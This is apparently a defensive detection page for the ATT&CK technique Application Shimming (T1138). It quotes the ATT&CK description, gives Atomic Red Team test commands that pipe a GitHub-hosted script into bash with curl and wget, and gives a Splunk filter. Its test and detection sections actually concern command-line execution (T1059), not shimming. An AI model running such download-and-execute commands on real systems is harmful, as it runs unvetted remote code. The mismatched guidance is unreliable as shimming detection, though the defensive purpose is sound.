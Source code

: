 # T1138 - Application Shimming
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1138)
<blockquote>The Microsoft Windows Application Compatibility Infrastructure/Framework (Application Shim) was created to allow for backward compatibility of software as the operating system codebase changes over time. For example, the application shimming feature allows developers to apply fixes to applications (without rewriting code) that were created for Windows XP so that it will work with Windows 10. (Citation: Endgame Process Injection July 2017) Within the framework, shims are created to act as a buffer between the program (or more specifically, the Import Address Table) and the Windows OS. When a program is executed, the shim cache is referenced to determine if the program requires the use of the shim database (.sdb). If so, the shim database uses [Hooking](https://attack.mitre.org/techniques/T1179) to redirect the code as necessary in order to communicate with the OS. A list of all shims currently installed by the default Windows installer (sdbinst.exe) is kept in:

* <code>%WINDIR%\AppPatch\sysmain.sdb</code>
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\installedsdb</code>

Custom databases are stored in:

* <code>%WINDIR%\AppPatch\custom & %WINDIR%\AppPatch\AppPatch64\Custom</code>
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\custom</code>

To keep shims secure, Windows designed them to run in user mode so they cannot modify the kernel and you must have administrator privileges to install a shim. However, certain shims can be used to [Bypass User Account Control](https://attack.mitre.org/techniques/T1088) (UAC) (RedirectEXE), inject DLLs into processes (InjectDLL), disable Data Execution Prevention (DisableNX) and Structure Exception Handling (DisableSEH), and intercept memory addresses (GetProcAddress). Similar to [Hooking](https://attack.mitre.org/techniques/T1179), utilizing these shims may allow an adversary to perform several malicious acts such as elevate privileges, install backdoors, disable defenses like Windows Defender, etc.</blockquote>


## Assumptions
 

## Execution:
[Test using Atomic Red Team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1138/T1138.md)

<blockquote>
```
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```
</blockquote>

or any commandline or powershel command

## Detection:
* Monitor CommandLine activity (including powershell)
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1059)

### Visibility
* Windows event log
* Enable Commandline audit
* Command line / Powershell activity

### Filter / Correlation in Splunk
Following catch both comandline and powershell, although they can be separated in two. 

```
"CommandLine:*"
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1059.JPG)
